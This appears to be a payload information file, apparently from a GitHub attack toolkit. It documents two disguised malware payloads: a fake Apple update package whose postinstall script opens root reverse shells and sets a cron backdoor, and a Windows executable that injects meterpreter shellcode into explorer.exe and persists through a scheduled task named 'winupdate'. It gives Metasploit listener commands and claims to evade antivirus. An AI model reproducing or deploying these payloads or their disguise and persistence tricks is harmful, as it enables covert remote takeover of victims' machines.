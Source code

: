 
-------------------------------
----- Payload Information -----
-------------------------------

[Apple_MacOSX_Update.pkg]

- Description: This is 4 lines of BASH stuck in an apple postinstall script.
               No signature AV can ever detect this because it uses system
               mechanics and contains no binaries in the package.

- This will spawn 2 root shells to the following addresses:
	172.16.42.2 6446
	172.16.42.3 6446

- It will also add a persistent backdoor that will spawn these 2 shells
  every 3 minutes (sudo crontab -l).

- Use this in metasploit for a listener:

set PAYLOAD generic/shell_reverse_tcp
set LHOST 0.0.0.0
set LPORT 6446
set ExitOnSession false
set AutoRunScript ""
exploit -j


[meterpreter_inject.exe]

- Description: This is a windows meterpreter shell that was
               encoded into base 64, embedded into a python script
               that preforms raw shellcode injection into explorer.exe,
               and then compiled into an executable. It is not detected
               at the time of this writing. If it is, recreate it.

- This will spawn 2 meterpreter shells to the following addresses:
	172.16.42.2 587
	172.16.42.3 587

- It will also add a persistent backdoor to Windows that will spawn
  these 2 shells every 3 minutes (schtasks /query /tn winupdate)

- Use this in metasploit for a listener:

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
set LPORT 587
set ExitOnSession false
set EXITFUNC thread
set AutoRunScript ""
exploit -j

